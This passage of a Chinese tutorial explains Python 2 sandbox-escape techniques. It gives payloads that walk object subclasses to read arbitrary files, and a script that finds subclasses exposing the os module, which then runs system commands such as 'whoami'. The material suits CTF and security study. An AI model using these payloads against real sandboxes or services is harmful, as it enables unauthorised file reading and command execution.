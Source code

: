 用`dir`来看看内置的方法

```
dir(().__class__.__bases__[0].__subclasses__()[40])
['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

所以最终的payload是

```
().__class__.__bases__[0].__subclasses__()[40]('filename').readlines()
```

然后用同样的手法可以得到`__mro__`形式下的payload

```
().__class__.__mro__[1].__subclasses__()[40]('filename').readlines()
```

这种方法等价于

```
file('backup.py').readlines()
```

**但是python3已经移除了file。所以第一种方法只能在py2中用。**

## 用内置模块执行命令

第二种方法接着第一种的思路接着探索。第一种止步于把内置的对象列举出来，其实可以用`__globals__`更深入的去看每个类可以调用的东西（包括模块，类，变量等等），万一有`os`这种东西就赚了。

```
#coding:utf-8

search = 'os'   #也可以是其他你想利用的模块
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass 
"""
(<class 'site._Printer'>, 72)
(<class 'site.Quitter'>, 77)
"""
().__class__.__mro__[1].__subclasses__()[77].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
```

**不过很可惜上述的方法也只能在py2中使用。**